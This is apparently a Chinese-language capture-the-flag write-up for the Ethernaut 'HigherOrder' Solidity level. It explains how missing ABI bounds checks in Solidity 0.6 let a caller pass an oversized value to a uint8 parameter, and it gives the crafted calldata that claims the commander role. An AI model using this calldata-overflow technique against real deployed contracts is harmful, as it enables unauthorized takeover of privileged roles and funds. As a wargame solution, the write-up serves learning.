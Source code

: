 ## Level_30.HigherOrder

要求：

> 成为Commander;

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

#### 分析

我们传输的数据需要大于255才能成为Commander，可是大于255起码需要3个hex；

此时注意编译版本：` 0.6 `，这时候还没有参数的边界检查，采用的是ABICoder V1，到了` 0.8 `版本才开始使用[参数的边界检查](https://docs.soliditylang.org/en/latest/080-breaking-changes.html)；

所以我们只需要自己构造一个大于0xFF的值作为calldata就行了；

```solidity
function getCalldata() public returns (bytes memory){
    return abi.encodeWithSignature("registerTreasury(uint8)", 0xFFFF);
}
// 0x211c85ab000000000000000000000000000000000000000000000000000000000000ffff
```



#### 攻击

记得加个` fallback() `函数后再点击` At Address `，不然直接输入calldata会失败；

![image-20250227222538002](./assets/image-20250227222538002.png)

查看值确实大于0xFF，调用` claimLeadership() `即可：

![image-20250227222647619](./assets/image-20250227222647619.png)


